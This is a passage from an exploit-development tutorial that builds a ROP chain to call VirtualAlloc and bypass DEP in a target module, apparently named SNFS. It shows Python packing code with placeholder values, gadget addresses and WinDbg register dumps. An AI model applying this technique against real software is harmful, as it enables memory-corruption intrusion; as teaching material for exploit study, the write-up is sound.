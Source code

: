 ```python
0190e43c  43434343
```

Now before we continue moving towards patching the arguments let’s recap our register values, `ECX` holds our address pointing to our Return Address. 

```python
va  = pack("<L", (0x45454545)) # VirutalAlloc Address
va += pack("<L", (0x46464646)) # Return Address (Shellcode on stack)
va += pack("<L", (0x47474747)) # lpAddress (Shellcode on stack)
va += pack("<L", (0x48484848)) # dwSize 
va += pack("<L", (0x49494949)) # flAllocationType 
va += pack("<L", (0x51515151)) # flProtect
```

## Patching Arguments <a name="parg"></a>

Now that we have our `VirtualAlloc` address stored, and our `shellcode` address, we need to start adding the arguments required by `VirtualAlloc` to disable DEP. Let’s recap our function prototype and requirements. 

```cpp
LPVOID VirtualAlloc(
  [in, optional] LPVOID lpAddress,
  [in]           SIZE_T dwSize,
  [in]           DWORD  flAllocationType, 
  [in]           DWORD  flProtect
);

// lpAddress => shellcode address 
// dwSize => 0x01 to 0x1000 ; size of the memory region we want to change, any value between 
// flAllocationType => 0x00001000 ; which is MEM_COMMIT
// flProtect => 0x00000040 ; 0x40 which is PAGE_EXECUTE_READWRITE

```

Before we continue we look at our registers and stack and we immediately notice our very last instruction already aligned our `lpAddress` for us. Effectively the address already points to our shellcode as shown below.

```python
0x1001bfe5: mov dword [esi], eax ; mov dword [esi+0x08], eax ; mov dword [esi+0x04], eax ; pop esi ; ret  ;

0:006> dds esi -4 L5
0190e2f0  100252e0 SNFS!_imp__VirtualAlloc
0190e2f4  0190e434
0190e2f8  0190e434
0190e2fc  0190e434
0190e300  00000000
0:006> r
eax=0190e434 ebx=42424242 ecx=100252e0 edx=770313a0 esi=0190e2f4 edi=00669360
eip=1001bfed esp=0190e3a0 ebp=42424242 iopl=0         nv up ei pl nz na po nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000202
SNFS!_freebuf+0x29:
1001bfed 5e              pop     esi
0:006> dds eax
0190e434  43434343
0190e438  43434343
```
